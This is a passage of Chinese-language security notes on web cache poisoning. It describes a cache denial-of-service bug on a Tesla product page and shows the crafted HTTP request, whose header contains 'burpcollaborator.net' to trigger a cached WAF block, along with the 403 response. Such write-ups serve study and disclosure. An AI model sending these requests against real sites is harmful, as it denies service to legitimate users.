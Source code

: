 ![image-20210224163837785](../images/pics/web缓存投毒攻击/image-20210224163837785.png)



#### 特斯拉的一个缓存DOS漏洞

漏洞地址：https://www.tesla.com/en_GB/roadster

漏洞原因就是特斯拉的waf只要发现`burpcollaborator.net`就会Denied。并且waf是有缓存的，所以命中缓存后，请求该资源就会是Denied。如下添加`dontpoisoneveryone=1`是为了不响应正常用户，真实的攻击的话肯定会直接给https://www.tesla.com/en_GB/roadster投毒。

<pre><font>GET /en_GB/roadster?dontpoisoneveryone=1</font> HTTP/1.1
<font color="red">Host: www.tesla.com</font>
Any-Header: burpcollaborator.net</pre>



<pre>HTTP/1.1 403 Forbidden
<br>Access Denied. Please contact waf@tesla.co</pre>
